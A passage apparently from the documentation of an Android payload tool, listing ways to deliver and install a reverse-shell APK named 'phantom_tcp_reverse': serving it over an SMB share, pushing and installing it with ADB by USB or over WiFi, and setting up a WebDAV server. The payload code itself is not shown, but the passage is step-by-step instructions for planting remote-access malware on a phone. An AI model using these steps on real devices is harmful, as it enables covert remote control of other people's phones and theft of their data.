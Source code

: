 ### **Access Network Share**
```bash
# Windows:
\\192.168.1.100\payloads

# Linux:
smbclient //192.168.1.100/payloads

# Mac:
smb://192.168.1.100/payloads
```

## 📲 Method 9: ADB Transfer

### **Direct ADB Push**
```bash
# Connect Android device via USB
adb devices

# Push payload directly to device
adb push output/phantom_tcp_reverse_*.apk /sdcard/Download/

# Install directly
adb install output/phantom_tcp_reverse_*.apk

# Verify installation
adb shell pm list packages | grep phantom
```

### **ADB over WiFi**
```bash
# Enable ADB over WiFi (device must be rooted or developer options enabled)
adb tcpip 5555
adb connect 192.168.1.200:5555  # Device IP

# Transfer payload
adb push output/phantom_tcp_reverse_*.apk /sdcard/Download/
```

## 🔍 Method 10: Advanced Access Methods

### **WebDAV Server**
```bash
# Install Apache with WebDAV
sudo apt install apache2 apache2-utils

# Enable WebDAV modules
sudo a2enmod dav
sudo a2enmod dav_fs

# Configure WebDAV
sudo nano /etc/apache2/sites-available/webdav.conf

# Add configuration and restart Apache
sudo systemctl restart apache2

# Access via: http://localhost/webdav/
```
